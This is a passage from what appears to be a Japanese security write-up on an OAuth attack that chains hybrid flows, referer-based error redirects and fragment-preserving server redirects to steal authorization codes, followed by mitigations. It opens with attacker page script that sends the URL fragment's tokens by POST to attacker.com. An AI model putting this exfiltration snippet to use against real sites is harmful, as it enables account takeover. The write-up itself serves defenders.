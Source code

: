 ```html
      }

      window.addEventListener("load", () => {
        const fragment = window.location.hash;
        if (fragment) {
          const encodedFragment = encodeURIComponent(fragment);
          fetch("https://attacker.com/save_tokens", {
            method: "POST",
            headers: {
              "Content-Type": "application/x-www-form-urlencoded",
            },
            body: `${encodedFragment}`,
          });
        }
      });
    </script>
  </body>
</html>
```

`window.open`を利用して、`id_token`と`code`の両方をレスポンスタイプで要求していることを確認することができる。

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1731316422739/22f91017-78f6-4a99-89f6-9404c39598ed.png?auto=compress,format&format=webp)
_簡略化された攻撃のフロー_

次に、被害者が攻撃者の仕掛けたウィンドウを開く。すると OAuth のフローが開始され、認可サーバにリクエストが送信される。認可サーバは`redirect_uri`を確認するが、これは正規のものなので検証には成功する。

続けて認可サーバは認可コードと ID トークンをリダイレクト先に返す。
OAuth クライアントはレスポンスを解析するが、返却されたクエリの中に`code`パラメータが存在せず、先程のように例外が発生する。したがってリファラに対してリダイレクトを行う。

ここで元のブログ記事では、サーバサイドでリダイレクトを行った場合、フラグメント部分が除去されずリダイレクト先に保持されるということを指摘している。これにより、遷移先である攻撃者のサーバにフラグメント情報付きでリダイレクトされることになり、攻撃者は認可コードを受け取ることができる。
![](https://cdn.hashnode.com/res/hashnode/image/upload/v1731315330876/4eb0b89d-52fe-4aea-908c-3248c31b344d.png?auto=compress,format&format=webp)

> There are two common ways to redirect users: server-side and client-side. In the first method, when a user is redirected to another website, the fragment part of the URL remains unchanged, however, in a client-side redirect, the fragment part of the URL is removed with each redirect:

以上のように、攻撃者は認可コードを受け取ることができる。

この攻撃は一つの脆弱性ではなく、複数の欠陥が組み合わさって一つの脆弱性となっていることに注意が必要である。原因を分析すると、以下のようになる。

## 認可サーバが`response_type`にハイブリッドフローを許容している

当攻撃は、認可サーバが`response_type`に`id_token,code`のようなハイブリッドフローを許容していることが前提となる。もし認可サーバがこのレスポンスタイプを許容していない場合、攻撃は成立しない。
認可サーバで認可コードフロー以外を利用しない場合、設定からインプリシットフロー・ハイブリッドフローの設定を無効化すべきである。

## OAuth クライアントがリファラを参照してリダイレクトを行う実装になっている

OAuth クライアントが認可サーバからのレスポンスを受け取った際に、何らかのエラーが発生した場合にリファラを参照してリダイレクトを行う実装になっていることも原因となる。リファラによってリダイレクトする仕組みを避けるか、リファラを保持するプロパティを受け付けないようにする等を検討するべきである。
なお、リファラが保持されるためには`prompt=none`プロパティによりログイン画面を一切表示せずに認可フローを完了させるようなオプション指定が必要であるが、ユーザビリティに影響がない場合はこのオプションを無効化することも検討するべきである。
